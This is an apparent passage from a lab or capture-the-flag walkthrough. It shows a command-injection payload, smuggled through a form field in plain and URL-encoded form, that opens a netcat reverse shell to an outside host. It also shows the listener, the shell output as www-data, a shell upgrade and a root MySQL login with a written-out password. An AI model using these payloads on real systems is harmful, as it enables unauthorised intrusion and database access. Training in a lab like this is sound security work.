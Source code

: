 #### The [netcat approach](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional) (*Ensure victim has netcat to use*)

*Origin*

> delim=comma&nc 10.10.14.46 *port* -e /bin/bash

*Convert*

> delim=%26nc%2010.10.14.46%20*port*%20-e%20%2Fbin%2Fbash

### Use nc to listen target port

> nc -lvnp *port*

> whoami

```
www-data
```

> id

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Login Mysql

### Open an new shell for mysql displaying output

> script -qc /bin/bash /dev/null

*Make it can work with xterm (optional)*

> export TERM=xterm-256color

### Login with root account

> mysql -u root -p

> mySQL_p@ssw0rd!:)

```
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 102
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```
